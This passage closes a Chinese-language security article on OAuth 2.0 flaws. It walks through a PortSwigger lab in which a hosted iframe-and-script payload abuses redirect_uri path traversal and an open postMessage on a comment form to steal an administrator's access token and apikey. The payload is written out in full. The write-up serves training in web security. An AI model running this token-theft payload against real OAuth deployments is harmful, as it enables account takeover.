我们除了可以借助重定向漏洞带出用户的 token 等信息之外，还可以通过其他漏洞获取此类信息，例如：XSS 漏洞、HTML 注入漏洞等，下面我们通过一个代理页面的示例进行演示：  
首先登录靶场并使用 buprsuite 全程记录报文  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233842-5268812e-b93c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233850-571a27e0-b93c-1.png)  
随后我们在/me 的 URL 请求路径中可以看到这里的 apikey 信息  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233910-62c94c6a-b93c-1.png)  
这里的/auth?client\_id=请求报文还是和上一个靶场一样，请求 localhost 报 400 错误  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233927-6d36c830-b93c-1.png)  
依旧可以使用../进行上级遍历，在这里我们查阅博客发现存在留言板并且允许任意用户进行留意，这里并没有限制请求来源，在源码中我们点击请求报文的 URL  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233943-76951cd8-b93c-1.png)  
可以看到这里允许任意来源：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234003-82dc1b22-b93c-1.png)  
随后我们构造如下载荷并用漏洞利用服务器进行托管操作：

```plain
<iframe src="https://oauth-0a82000703fb10c7839a724d02f3000b.oauth-server.net/auth?client_id=so0r401bjqdo1b9htyyeb&redirect_uri=https://0afa0008035e107083727466006000e9.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>

<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234026-9026275a-b93c-1.png)  
访问载荷页面：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234045-9b8dd6ba-b93c-1.png)  
在日志中我们可以获取到 accesstoken 记录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234100-a44d3c1e-b93c-1.png)  
随后分发一次请求载荷并刷新日志可以看到来自 admin 的 accesstoken  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234117-aeecfaba-b93c-1.png)  
随后返回 burpsuite 中替换 token，获取到 Administrator 的 apikey

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234134-b8a760c2-b93c-1.png)  
随后提交 key 即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234144-bf12e544-b93c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234150-c269b95c-b93c-1.png)

## 文末小结

OAuth 2.0 尽管使用广泛，但是它也并不是完美无缺的，而且在某些情况下可能会引发安全风险，本篇文章则主要介绍了 OAutho 协议的版本差异、关联认证角色、认证流程以及关键的授权类型，随后对 OAuth 2.0 中存在的安全风险面进行梳理，结合靶场给出了漏洞的挖掘思路

## 参考连接

[https://www.oauth.com/](https://www.oauth.com/)  
[https://datatracker.ietf.org/doc/html/rfc6749](https://datatracker.ietf.org/doc/html/rfc6749)  
[https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)  
[https://fugangqiang.github.io/posts/web/%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3OAuth2.0%E5%8D%8F%E8%AE%AE.html](https://fugangqiang.github.io/posts/web/%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3OAuth2.0%E5%8D%8F%E8%AE%AE.html)
